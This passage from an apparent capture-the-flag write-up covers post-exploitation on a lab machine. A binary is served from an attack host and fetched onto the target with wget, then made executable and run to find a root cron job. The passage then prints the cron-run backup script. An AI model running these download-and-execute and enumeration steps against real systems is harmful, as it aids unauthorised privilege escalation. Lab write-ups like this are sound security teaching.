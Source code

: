 ## Post Exploitation

Now that we have compromised a normal user account let's enumerate the system to escalate our privileges. We can do this by enumerating cron jobs running on the target using pspy64. Let's transfer this binary from our attack host to the target.
##### Starting Our Python server on the attack host
```bash
┌──(pentester㉿kali)-[~/Stardust/Misc File]
└─$cp /usr/share/pspy/pspy64 .

┌──(pentester㉿kali)-[~/Stardust/Misc File]
└─$python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
###### Downloading and running pspy64 on the target
```bash
tally@stardust:/tmp$ wget 10.0.2.16:8000/pspy64
--2024-09-20 21:03:55--  http://10.0.2.16:8000/pspy64
Connecting to 10.0.2.16:8000... connected.
<SNIP>

pspy64              100%[===================>]   2.96M  --.-KB/s    in 0.03s   

2024-09-20 21:03:55 (97.3 MB/s) - ‘pspy64’ saved [3104768/3104768]

tally@stardust:/tmp$ chmod 755 pspy64 
tally@stardust:/tmp$ ./pspy64    
<SNIP>
2024/09/20 21:05:01 CMD: UID=0     PID=7310   | /usr/sbin/CRON -f 
2024/09/20 21:05:01 CMD: UID=0     PID=7311   | /bin/sh -c /opt/meteo 
<SNIP>
```

We see from the above output that the file /opt/meteo is run as root after a certain period. Let's move to that directory and understand what the file does.
```bash
tally@stardust:/tmp$ cd /opt
tally@stardust:/opt$ ls -la
<SNIP>
-rw-rw-r--+  1 root root   49 May  8  2023 config.json
-rwxr-xr-x   1 root root  607 May  7  2023 meteo

tally@stardust:/opt$ cat meteo 
#! /bin/bash

#meteo
config="/opt/config.json"
latitude=$(jq '.latitude' $config)
longitude=$(jq '.longitude' $config)
limit=1000

#sys
web="/var/www/intranetik"
users="/home/tally"
root="/root"
dest="/var/backups"

#get rain elevation 
elevation=$(curl -s "https://api.open-meteo.com/v1/forecast?latitude=$latitude&longitude=$longitude&hourly=rain" |jq .elevation)

if [[ $elevation -gt $limit ]] ; then
echo "RAIN ALERT !"
tar -cf $dest/backup.tar $web >/dev/null
```